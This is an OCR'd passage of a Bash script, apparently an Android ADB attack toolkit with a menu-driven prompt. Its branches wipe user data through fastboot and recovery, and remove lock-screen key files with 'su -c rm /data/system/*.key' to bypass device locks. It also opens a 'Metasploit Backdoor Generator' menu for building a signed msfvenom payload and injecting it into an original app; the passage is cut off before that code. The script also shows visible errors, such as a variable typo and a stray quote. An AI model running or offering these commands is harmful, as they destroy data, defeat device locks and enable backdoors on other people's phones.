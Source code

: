     elif [[ $select == 7 ]]; then
      adb backup -apk -shared -all -f $fpath/backup.ab
    elif [[ $select == 8 ]]; then
      adb restore $fpath/backup.ab“
    elif [[ $select == 9 ]]; then
      adb shell pm reset-permissions
    elif [[ $select == 10 ]]; then
      adb reboot &> /dev/null
    elif [[ $select == 99 ]]; then
    files
    fi
elif [[ $select == 8 ]]; then
  echo -e "${lh}
  1.Fastboot
  2.Recovery
  ${n}"
  read -p "senpai@tegalsec:~# " select
  if [[ $select == 1 ]]; then
    adb reboot bootloader
    deviceConnected=konek
    	if [ "$(konek)" = 'NO' ]; then
    		echo "Waiting Phone..."
    		$adb wait-for-device
      fi
        fastboot devices
        fastboot erase userdata
        fastboot erase cache
   elif [[ $slect == 2 ]]; then
     deviceConnected=konek
     	if [ "$(konek)" = 'NO' ]; then
     		echo "Waiting Phone..."
     		$adb wait-for-device
       fi
       adb devices
       adb shell recovery --wipe_data
  else
    echo -e  "${m} Your Brain Error!${n}"
  fi

elif [[ $select == 9 ]]; then
  rem=$(adb shell su -c rm /data/system/*.key | adb reboot )
  echo $rem
  echo "success"



elif [[ $select == 10 ]]; then
  clear
  function mmeta() {
    banner
    echo -e "${m}   Metasploit Backdoor Generator${n}"
  }
  mmeta
echo -e "${lh}
1.Install Application
2.Create Payload Backdoor {Msfvenom} Singed
3.Run Metasploit
4.Inject Payload In Original Application
99.Menu
${n}"
read -p "senpai@tegalsec:~# " select
if [[ $select == 1 ]]; then
  read -p "Enter Ur Application: " app
  read -p "Run Application {Y/N}: " run
  if [ $run == "Y" ] || [ $run == "y" ]; then